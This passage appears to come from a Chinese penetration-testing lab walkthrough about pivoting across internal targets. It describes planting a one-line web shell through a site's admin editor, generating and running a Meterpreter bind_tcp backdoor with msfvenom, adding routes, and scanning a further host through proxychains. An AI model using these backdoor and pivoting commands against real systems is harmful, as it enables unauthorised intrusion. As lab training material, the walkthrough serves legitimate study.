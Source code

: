 ![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012214513840.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
9、后台里面有文件上传的地方，有编辑主页文件的地方，为了方便，我们直接把一句话写入网站文件中

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012214523524.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012214528944.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
10、来到标签页，可以看到一句话生效了，接下里在SocksCap中打开蚁剑，利用蚁剑连接，注意SocksCap设置好代理-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012214549821.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012214556750.png%23pic_center)

**b、设置代理**

1、蚁剑中可以看到这是一个64位的linux系统，据此信息在MSF中生成后门

    root@kali:~# msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=4321 -f elf > shell2.elf
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020101221461648.png%23pic_center)-
2、利用蚁剑将shell2.elf上传到Target2并开启监听

    (www:/www/wwwroot/upload) $ chmod 777 shell2.elf
    (www:/www/wwwroot/upload) $ ./shell2.elf
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012214638230.png%23pic_center)

3、在MSF中开启EXP，与Target2建立连接，这里需要注意，上一次代理使用的reversetcp是MSF作为监听，让Target1连到我们，而这次代理使用的bindtcp是Target2作为监听，我们需要连到Target2，这个逻辑正好是相反的。

    msf5 > use exploit/multi/handler
    msf5 exploit(multi/handler) > set payload linux/x64/meterpreter/bind_tcp
    msf5 exploit(multi/handler) > set RHOST 192.168.22.22
    msf5 exploit(multi/handler) > set LPORT 4321
    msf5 exploit(multi/handler) > options
    msf5 exploit(multi/handler) > run
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012214645416.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
4、与之前一样，我们添加Target3的路由，这里就不用设置代理了，直接添加路由即可

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012214657676.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

run autoroute -s 192.168.33.0/24-
run autoroute -p

5、尝试扫描Target3

root@kali:~# proxychains4 nmap -Pn -sT 192.168.33.33-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012214706618.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

* * *

**0x03 Target3**
